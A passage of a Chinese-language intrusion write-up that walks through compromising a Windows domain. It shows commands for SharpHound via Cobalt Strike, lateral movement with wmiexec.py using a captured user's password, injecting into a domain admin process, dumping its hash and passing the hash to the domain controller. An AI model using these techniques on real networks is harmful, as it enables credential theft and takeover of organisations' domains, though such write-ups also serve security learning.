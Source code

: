     
    
    execute-assembly /root/桌面/nw/SharpHound.exe -c all

![]()

然后把他下载到本地进行分析：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121920.png)

可以看到当前只有四个域管理员：

![](https://gitee.com/fuli009/images/raw/master/public/20210809121921.png)

由于当前跳板机器是DRAxx，我们就分析  DRAxx 的环境：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121923.png)

可以看到当前机器 DRAxx 可以到达 ERIDANUS.xxxx.xxx 机器，思路就是我们可以通过 ERIDANUS
拿到这台机器的权限，然后在拿到最近的域管！那么我们直接通过之前抓到的 ali.hamzeh 密码去横向 wmi 到 ERIDANUS：

  * 

    
    
    proxychains python3 wmiexec.py -shell-type cmd xxxx/ali.hamzeh:passsword@192.168.54.53 -codec gbk

![](https://gitee.com/fuli009/images/raw/master/public/20210809121924.png)

然后直接 Powershell 上线到 CobaltStrike：（太卡了这个 socks，又重开了一个 wmi）

![](https://gitee.com/fuli009/images/raw/master/public/20210809121925.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210809121926.png)

由于当前 ERIDANUS 机器没有 AV 直接提权把：

![](https://gitee.com/fuli009/images/raw/master/public/20210809121927.png)

通过查看当前 ERIDANUS 机器发现的确如 SharpHound 分析那样有一个 ebrahim 域管的进程：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121928.png)

直接注入域管进程上线到 CobaltStrike 吧：  

![](https://gitee.com/fuli009/images/raw/master/public/20210809121929.png)

成功拿到域管权限！我为了好区分，绿色 beacon 是 域管！之后直接先抓下域管密码 hash：

![](https://gitee.com/fuli009/images/raw/master/public/20210809121930.png)

有了域管的 hash 后，直接可以 PTH 域控：

  * 

    
    
    proxychains python3 wmiexec.py -shell-type powershell -hashes :84d562d8c6f5xxxxxxxxxx xxxxx/ebrahim@192.168.10.10 -codec gbk
